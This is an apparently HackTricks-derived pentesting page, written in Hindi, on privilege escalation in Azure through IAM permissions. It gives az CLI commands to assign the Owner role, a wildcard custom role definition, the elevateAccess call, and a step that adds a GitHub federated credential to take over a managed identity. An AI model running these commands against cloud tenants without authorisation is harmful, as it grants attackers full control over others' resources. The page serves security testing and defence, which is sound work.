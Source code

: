 # Az - Azure IAM Privesc (Authorization)

{{#include ../../../banners/hacktricks-training.md}}

## Azure IAM

अधिक जानकारी के लिए देखें:

{{#ref}}
../az-services/az-azuread.md
{{#endref}}

### Microsoft.Authorization/roleAssignments/write

यह अनुमति विशेष दायरे में प्रिंसिपलों को भूमिकाएँ सौंपने की अनुमति देती है, जिससे एक हमलावर को अधिक विशेषाधिकार प्राप्त भूमिका सौंपकर विशेषाधिकार बढ़ाने की अनुमति मिलती है:
```bash
# Example
az role assignment create --role Owner --assignee "24efe8cf-c59e-45c2-a5c7-c7e552a07170" --scope "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.KeyVault/vaults/testing-1231234"
```
### Microsoft.Authorization/roleDefinitions/Write

यह अनुमति एक भूमिका द्वारा दी गई अनुमतियों को संशोधित करने की अनुमति देती है, जिससे एक हमलावर को अधिक अनुमतियाँ देने के द्वारा विशेषाधिकार बढ़ाने की अनुमति मिलती है जिसे उसने सौंपा है।

फाइल `role.json` निम्नलिखित **सामग्री** के साथ बनाएं:
```json
{
"Name": "<name of the role>",
"IsCustom": true,
"Description": "Custom role with elevated privileges",
"Actions": ["*"],
"NotActions": [],
"DataActions": ["*"],
"NotDataActions": [],
"AssignableScopes": ["/subscriptions/<subscription-id>"]
}
```
फिर पिछले परिभाषा को कॉल करते हुए भूमिका अनुमतियों को अपडेट करें:
```bash
az role definition update --role-definition role.json
```
### Microsoft.Authorization/elevateAccess/action

यह अनुमति विशेषाधिकार बढ़ाने और Azure संसाधनों पर किसी भी प्रिंसिपल को अनुमतियाँ सौंपने की अनुमति देती है। इसे Entra ID Global Administrators को दिया जाना चाहिए ताकि वे Azure संसाधनों पर अनुमतियों का प्रबंधन कर सकें।

> [!TIP]
> मुझे लगता है कि उपयोगकर्ता को elevate कॉल काम करने के लिए Entra ID में Global Administrator होना चाहिए।
```bash
# Call elevate
az rest --method POST --uri "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"

# Grant a user the Owner role
az role assignment create --assignee "<obeject-id>" --role "Owner" --scope "/"
```
### Microsoft.ManagedIdentity/userAssignedIdentities/federatedIdentityCredentials/write

यह अनुमति प्रबंधित पहचान में संघीय क्रेडेंशियल जोड़ने की अनुमति देती है। उदाहरण के लिए, एक प्रबंधित पहचान को एक रिपॉजिटरी में Github Actions तक पहुँच देने के लिए। फिर, यह **किसी भी उपयोगकर्ता द्वारा परिभाषित प्रबंधित पहचान** तक पहुँचने की अनुमति देती है।

Github में एक रिपॉजिटरी को प्रबंधित पहचान को पहुँच देने के लिए उदाहरण कमांड:
```bash
# Generic example:
az rest --method PUT \
--uri "https://management.azure.com//subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<managed-identity-name>/federatedIdentityCredentials/<name-new-federated-creds>?api-version=2023-01-31" \
--headers "Content-Type=application/json" \
--body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:<org-name>/<repo-name>:ref:refs/heads/<branch-name>","audiences":["api://AzureADTokenExchange"]}}'

# Example with specific data:
az rest --method PUT \
--uri "https://management.azure.com//subscriptions/92913047-10a6-2376-82a4-6f04b2d03798/resourceGroups/Resource_Group_1/providers/Microsoft.ManagedIdentity/userAssignedIdentities/funcGithub-id-913c/federatedIdentityCredentials/CustomGH2?api-version=2023-01-31" \
--headers "Content-Type=application/json" \
--body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:carlospolop/azure_func4:ref:refs/heads/main","audiences":["api://AzureADTokenExchange"]}}'
```
{{#include ../../../banners/hacktricks-training.md}}
